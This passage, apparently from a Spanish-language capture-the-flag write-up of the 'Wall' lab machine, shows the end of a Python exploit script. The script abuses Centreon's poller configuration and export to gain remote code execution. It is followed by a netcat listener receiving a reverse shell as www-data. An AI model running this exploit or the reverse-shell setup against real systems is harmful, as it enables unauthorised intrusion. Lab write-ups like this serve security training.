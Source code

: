 ```python3
                'centreonbroker_cfg_path':'/etc/centreon-broker',
                'centreonbroker_module_path':'/usr/share/centreon/lib/centreon-broker',
                'centreonbroker_logs_path': '',
                'centreonconnector_path':'/usr/lib64/centreon-connector',
                'init_script_centreontrapd':'centreontrapd',
                'snmp_trapd_path_conf':'/etc/snmp/centreon_traps/',
                'ns_activate[ns_activate]':'1',
                'submitC':'Save',
                'id':'1',
                'o':'c',
                'centreon_token': new_token
                }
# Peticion arrastrando la session S
        r = s.post(config_url, data=data_config_post)
# Data para el ejecutar el rce con la tercera peticion a nivel web
        rce_data = {

                'poller': '1',
                'debug': 'true',
                'generate':'true'
                }
# Peticion ultima en la que seria darle a la opcion "Export"
        r = s.post(rce_url, data=rce_data)

if __name__ == '__main__':

        p1 = log.progress("Abriendo Session")
# Funcion Principal
        makeRequest("password1")
```

Vale lanzamos el exploit:
```bash
# python3 AutoPwn_Wall.py                                                                                   1 ⚙
[ ] Abriendo Session
```
Nos ponemos con una session de `nc -vlnp 1234` en el puerto indicado anteriormente y procedemos a hacer los mismos pasos.
Recibimos la `R_shell`
```bash
└─# nc -vlnp 1234                                                                                             1 ⨯
listening on [any] 1234 ...
connect to [10.10.15.141] from (UNKNOWN) [10.10.10.157] 60452
bash: cannot set terminal process group (1001): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$ 
```

# Escalada de privilegios
